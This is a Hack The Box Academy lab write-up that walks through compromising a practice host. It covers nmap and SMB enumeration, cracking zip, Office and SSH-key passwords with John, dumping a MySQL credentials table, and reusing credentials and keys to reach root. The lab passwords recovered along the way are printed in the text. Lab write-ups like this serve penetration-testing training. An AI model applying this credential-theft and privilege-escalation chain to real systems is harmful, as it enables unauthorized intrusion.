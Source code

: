 # Password Attacks Lab - Medium  

[Password Attacks Lab - Medium](https://academy.hackthebox.com/module/147/section/1335)  

>Host is a workstation used by an employee for their day-to-day work. 
>These types of hosts are often used to exchange files with other employees and are typically administered by administrators over the network.
>During a meeting with the client, we were informed that many internal users use this host as a jump host. 
>The focus is on securing and protecting files containing sensitive information.  

## Enumeration  

>NMAP Scans and results:  

```
sudo nmap -p 22,139,445 10.129.202.221 -sCV -A -O

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: SKILLS-MEDIUM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: 1s
| smb2-time: 
|   date: 2023-07-16T17:43:55
|_  start_date: N/A
```  

### SMB  

>Enumerate if any shares allow anonymous or null unauthenticated read of data and files.

```
smbmap -u '' -H 10.129.202.221
```  

>Discovering a share `SHAREDRIVE` that allow read access anonymously.  

```
smbclient -N \\\\10.129.202.221\\SHAREDRIVE

get Docs.zip
```

>Extract the ZIP password hash, and then Crack password protected zip file using `John`.  

```
zip2john Docs.zip >docs.hash

john docs.hash --wordlist=resources/demo-pass.lst
```  

>Cracking the Office Document DOCX file password with `office2john`. [Cracking Documents](https://academy.hackthebox.com/module/147/section/1322)  

```
office2john Documentation.docx >office.hash

john office.hash --show
```

>Office DOCX file password cracked as `987654321`, and discover the Microsoft Word Document content as below.  

![office2john-Password-Attacks-Lab-Medium](/images/office2john-Password-Attacks-Lab-Medium.png)  

>Discovered password information from word document, as below:  

```

Root password is jason:C4mNKjAtL2dydsYa6
>10.129.200.21</inlane.configure.localIp>

http://localhost:8080/cms 
```  

## Foothold

>Gain access to target as `jason` via ssh with the password `C4mNKjAtL2dydsYa6`.  

>Based on the document discovered, enumeration indicate local internal HTTP service on port 8080.

### Local Service Discovery  

>`netstat` and `ss` commands to determine internal ports not accessible on victim from kali externally.   

```
netstat -antup

ss -tulpn
```  

![netstat-Password-Attacks-Lab-Medium](/images/netstat-Password-Attacks-Lab-Medium.png)  

>Discovered MySQL on port 3306 internally. [Interacting with Common Services - SMB,SQL,RDP,DNS & SMTP](https://academy.hackthebox.com/module/116/section/1140)  
>Using credentials for `jason` and password of `C4mNKjAtL2dydsYa6` to connect locally to SQL.  

```
mysql -u jason -p

show databases;
use users;
show tables;

select * from creds where name like 'dennis';
```  

![SQL-Password-Attacks-Lab-Medium](/images/SQL-Password-Attacks-Lab-Medium.png)  

>Credentials for the user `dennis` and the password discovered is `7AUgWWQEiMPdqx`.  

## Lateral Movement  

>Logged in as `dennis` user with the discovered credentials on the internal MySQL service, creds table.

```
su dennis

cd /home/dennis/.ssh
cat id_rsa
```   

>Crack the id_rsa key password for `dennis` using John.  

```
ssh2john id_rsa_dennis.ssh > ssh.hash

john ssh.hash --wordlist=../mut_password.list

ssh dennis@10.129.202.221 -i id_rsa_dennis.ssh
```

>Password for the cracked id_rsa file is `P@ssw0rd12020!`.

## Privilege Escalation  

>Re using the SSH Key from Dennis in an SSH as root with found password for the id_rsa key file Reuse the Password `P@ssw0rd12020!`.  

```
ssh root@10.129.202.221 -i id_rsa_dennis.ssh
id
whoami

cat /root/flag.txt
```

### Port Forwarding  

>Extra: Did not use the port forwarding to privilege escalate, but did for enumeration internal services.  

>[Dynamic Port Forwarding with SSH and SOCKS Tunneling](https://academy.hackthebox.com/module/158/section/1426)  

```
ssh -L 33060:localhost:33060 dennis@10.129.202.221 -i id_rsa_dennis.ssh
```  
